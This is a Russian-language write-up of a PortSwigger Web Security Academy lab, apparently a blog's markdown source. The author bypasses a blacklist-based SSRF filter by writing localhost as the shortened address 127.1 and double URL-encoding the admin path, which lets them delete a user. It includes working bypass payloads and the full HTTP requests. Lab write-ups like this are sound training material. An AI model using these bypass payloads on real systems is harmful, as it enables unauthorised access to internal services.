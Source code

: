 ```yaml
---
title: "SSRF with blacklist-based input filter"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-with-blacklist-filter#"
classes: wide
---
```

{% raw %}
Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Для ее решения нужно получить доступ к интерфейсу админа `http://localhost/admin` и удалить пользователя `carlos`.

```
https://0a71006d04dde7948159e33700d200f4.web-security-academy.net/
```

## Solution

Немного посмотрю, как работает сайт, и заодно соберу `HTTP`-запросы через `Burp Proxy`. Кред для входа нам не дали(

Нашел запрос на проверку наличия товара:

```http
POST /product/stock HTTP/2
Host: 0a71006d04dde7948159e33700d200f4.web-security-academy.net
Cookie: session=dYYyqMOn0ccjpc3CG25VsB42YI4ApEIj
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a71006d04dde7948159e33700d200f4.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a71006d04dde7948159e33700d200f4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

В параметре `stockApi` передается адрес для запроса `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1`.

Попробую передать нужный `http://localhost/admin`.

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

Попробую закодировать запрос в `URL`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

Далее буду пробовать разные варианты запроса:

```
http://127.0.0.1/admin - err
http://127.0.0.1/%61%64%6d%69%6e - err
http://127.1/%61%64%6d%69%6e - err
```

Попробую разделить запроса на 2 предполагаемых фильруемых значения `localhost` и `/admin`. Начну с `localhost`:

```
http://127.0.0.1 - err
http://127.1 - OK
```

Сайт распарсил сокращенный вариант адреса. Супер, теперь попробую добавить `/admin`:

```
http://127.1/admin - err
http://127.1/%25%36%31%64%6d%69%6e - OK
```

Из оригинального запроса было видно, что можно применить `URL`-кодирование. Я закодировал `а` в `URL` и получил `%61dmin`, а затем закодировал все это еще раз.

На полученной странице видно следующее:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_blacklist-based_input_filter/1.jpg){: height="200" .align-center}

Для удаления пользователя нужно использовать ручку `/admin/delete?username=carlos`. Попробую использовать это, закодировав путь дважды:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%64%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33
```

Ответ:

```http
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=i0GScmiflIc0foM1PmWdwDsY2xKSF4gm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Пользователь успешно удален:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_blacklist-based_input_filter/2.png){: height="200" .align-center}
{% endraw %}

